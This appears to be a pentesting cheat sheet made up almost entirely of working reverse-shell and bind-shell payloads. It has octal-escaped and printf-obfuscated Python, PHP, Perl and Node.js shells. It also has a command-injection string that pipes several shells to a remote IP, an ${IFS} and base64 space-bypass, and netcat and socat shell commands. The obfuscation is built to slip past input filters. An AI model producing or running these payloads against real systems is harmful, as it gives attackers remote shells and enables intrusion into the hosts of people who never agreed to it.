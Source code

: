 ```bash
echo -n """python\40\55c\40\47import\40socket\54subprocess\54os\73s\75socket.socket\50socket.AF\137INET\54socket.SOCK_STREAM\51\73s.connect\50\50\42%.s${attacker}\42\54%.s${port}\51\51\73os.dup2\50s.fileno\50\51\54%.s0\51\73\40os.dup2\50s.fileno\50\51\54%.s1\51\73\40os.dup2\50s.fileno\50\51\54%.s2\51\73p\75subprocess.call\50\133\42\57bin\57sh\42\54\\4255i\42\135\51\73\47\73\12"""
echo -n """php\40\55r\40\47\44sock\75fsockopen\50\42%.s${attacker}\42\54%.s${port}\51\73exec\50\42\57bin\57sh\40\55i\40\74\46%.s3\40\76\46%.s3\40%.s2\76\46%.s3\42\51\73\47\12"""
echo -n """perl\40\55e\40\47use\40Socket\73\44i\75\42%.s${attacker}\42\73\44p\75%.s${port}\73socket\50S\54PF_INET\54SOCK_STREAM\54getprotobyname\50tcp\51\51\73if\50connect\50S\54sockaddr\137in\50\44p\54inet_aton\50\44i\51\51\51\51\173open\50STDIN\54\42\76\46S\42\51\73open\50STDOUT\54\42\76\46S\42\51\73open\50STDERR\54\42\76\46S\42\51\73exec\50\42\57bin\57sh\40\55i\42\51\73\175\73\47\12"""
echo -n "echo\40\42\50function\50\51\173var\40net\75require\50\47net\47\51\54cp\75require\50\47child_process\47\51\54sh\75cp.spawn\50\47sh\47\54\40\133\135\51\73var\40client\75new net.Socket\50\51\73client.connect\50%.s${port}\54\47%.s${attacker}\47%.s\54function\50\51\173client.pipe\50sh.stdin\51\73sh.stdout.pipe\50client\51\73sh.stderr.pipe\50client\51\73\175\51\73return\40\57a\57\73\40\57\57\40Prevents\12\175\51\50\51\73\42\76\57tmp\57shell\137node.js\73node\40\57tmp\57shell\137node.js"

127.0.0.1|printf 'echo\40\42bash\40%.s\55i\76\46/dev/tcp/192.168.62.187/443\40%.s0\76\46%.s1\42\174bash\73\12netcat\40%.s192.168.62.187\40%.s443\40\55e\40\57bin\57sh\73\12python\40\55c\40\47import\40socket\54subprocess\54os\73s\75socket.socket\50socket.AF\137INET\54socket.SOCK_STREAM\51\73s.connect\50\50\42%.s192.168.62.187\42\54%.s443\51\51\73os.dup2\50s.fileno\50\51\54%.s0\51\73\40os.dup2\50s.fileno\50\51\54%.s1\51\73\40os.dup2\50s.fileno\50\51\54%.s2\51\73p\75subprocess.call\50\133\42\57bin\57sh\42\54\4255i\42\135\51\73\47\73\12php\40\55r\40\47\44sock\75fsockopen\50\42%.s192.168.62.187\42\54%.s443\51\73exec\50\42\57bin\57sh\40\55i\40\74\46%.s3\40\76\46%.s3\40%.s2\76\46%.s3\42\51\73\47\12perl\40\55e\40\47use\40Socket\73\44i\75\42%.s192.168.62.187\42\73\44p\75%.s443\73socket\50S\54PF_INET\54SOCK_STREAM\54getprotobyname\50tcp\51\51\73if\50connect\50S\54sockaddr\137in\50\44p\54inet_aton\50\44i\51\51\51\51\173open\50STDIN\54\42\76\46S\42\51\73open\50STDOUT\54\42\76\46S\42\51\73open\50STDERR\54\42\76\46S\42\51\73exec\50\42\57bin\57sh\40\55i\42\51\73\175\73\47\12echo\40\42\50function\50\51\173var\40net\75require\50\47net\47\51\54cp\75require\50\47child_process\47\51\54sh\75cp.spawn\50\47sh\47\54\40\133\135\51\73var\40client\75new net.Socket\50\51\73client.connect\50%.s443\54\47%.s192.168.62.187\47%.s\54function\50\51\173client.pipe\50sh.stdin\51\73sh.stdout.pipe\50client\51\73sh.stderr.pipe\50client\51\73\175\51\73return\40\57a\57\73\40\57\57\40Prevents\12\175\51\50\51\73\42\76\57tmp\57shell\137node.js\73node\40\57tmp\57shell\137node.js'|sh


# IN CASE NO SPACES ALLOWED
echo -ne '$revshell' | base64
echo${IFS}base64Revshell${IFS}|base64${IFS}-d|bash
# PHP, PYTHON
php -r '$sock=fsockopen("10.0.2.5",443);exec("/bin/sh -i <&3 >&3 2>&3");'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
# BIND SHELL
nc -lvp 4444 -e /bin/sh # (TARGET)
nc 10.11.1.0 4444 # (attacker)
# SOCAT
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4444
socat TCP:10.10.10.10:9001 EXEC:sh
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
{% endcode %}
